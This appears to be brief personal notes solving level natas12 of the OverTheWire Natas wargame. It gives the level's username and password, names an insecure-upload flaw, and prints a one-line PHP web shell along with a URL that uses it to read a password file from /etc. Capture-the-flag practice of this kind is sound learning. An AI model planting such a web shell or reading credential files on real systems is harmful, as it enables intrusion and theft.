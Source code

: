 # Username
natas12

# Password
yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB

# Web Vulnerbility
 insecure file upload, client-side filter bypass

 # Method of Solve
 using Curl upload malicious php file, then in browers calling on file whilst requesting sensitive information.
 ```
<?php system($_GET['cmd']); ?>
```
```
http://natas12.natas.labs.overthewire.org/upload/ccodm15flo.php?cmd=cat%20/etc/natas_webpass/natas12
```
